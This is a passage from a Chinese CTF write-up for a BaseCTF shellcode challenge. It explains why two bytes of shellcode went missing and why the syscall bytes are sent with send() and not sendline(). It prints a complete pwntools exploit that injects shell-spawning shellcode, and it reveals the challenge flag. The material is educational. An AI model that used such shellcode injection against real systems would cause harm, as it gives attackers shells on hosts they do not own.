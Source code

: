 **确实是缺少的shellcode回来了**

<mark>看来以后做题要先打印shellcode出来看看，不然有没有缺东西都不知道</mark>

**对了还有一个问题，就是一定要用** `send(asm('''syscall'''))` 

**！！！不要用sendline！！！，用sendline打不通。因为多了个换行符。read(0,buf,2ull)最多接收2字节的数据，汇编指令syscall正好两字节，再多个换行符的内存数据，就超过最大限度了，从而报错。**

最终的exp:

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",47700)
io=process('./shellcode1')
elf=ELF('./shellcode1')

#gdb.attach(io,'b main')
shellcode = b'aa' + asm(shellcraft.sh()) #前面是补充缺少的两个字节
payload=shellcode
print(shellcode)
io.send(asm('''syscall''')) #一定要用send()
io.sendline(payload)

io.interactive()
```

flag为BaseCTF{411c97e7-7289-4c15-b0d5-0f5bf1cf39fe}

## 结语

shellcode的题，要先打印出看看shellcode是什么，防止因为缺少某一段指令使得shellcode不完整，而自己发现不了的情况

shellcode的题，发送syscall汇编指令，要用send()，不要用sendline()。因为sendline会多发送一个回车，从而使得传入的数据增大，如果题目对传入数据有限制的话，就会出问题了。
